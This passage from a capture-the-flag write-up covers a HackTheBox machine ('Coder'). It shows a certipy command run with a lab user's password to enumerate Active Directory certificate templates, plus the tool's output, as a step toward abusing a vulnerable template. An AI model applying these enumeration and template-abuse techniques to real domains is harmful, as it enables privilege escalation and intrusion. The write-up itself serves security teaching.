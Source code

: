 
The most important one is the top one, Administrator.

### Exploit - Shortcut

#### Create Template

e.black has rights to create ADCS templates. Above I showed doing that to
upload a template misconfigured like what led to CVE-2022-26923. But I can
upload really any vulenable template.

I’ll take a look at what [certipy](https://github.com/ly4k/Certipy) shows
about the same “Computer” template I modified above. I’ll run it to get all
templates and save them to a file:

    
    
    oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 34 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'coder-DC01-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'coder-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'coder-DC01-CA' via RRP
    [*] Got CA configuration for 'coder-DC01-CA'
    [*] Saved text output to '20231115123715_Certipy.txt'
    

The results for “Computer” are:

    
    
      20
        Template Name                       : Machine
        Display Name                        : Computer
        Certificate Authorities             : coder-DC01-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDnsAsCn
                                              SubjectAltRequireDns
        Enrollment Flag                     : AutoEnrollment
        Private Key Flag                    : AttestNone
        Extended Key Usage                  : Client Authentication
                                              Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CODER.HTB\Domain Admins
                                              CODER.HTB\Domain Computers
                                              CODER.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : CODER.HTB\Enterprise Admins
            Write Owner Principals          : CODER.HTB\Domain Admins
                                              CODER.HTB\Enterprise Admins
            Write Dacl Principals           : CODER.HTB\Domain Admins
                                              CODER.HTB\Enterprise Admins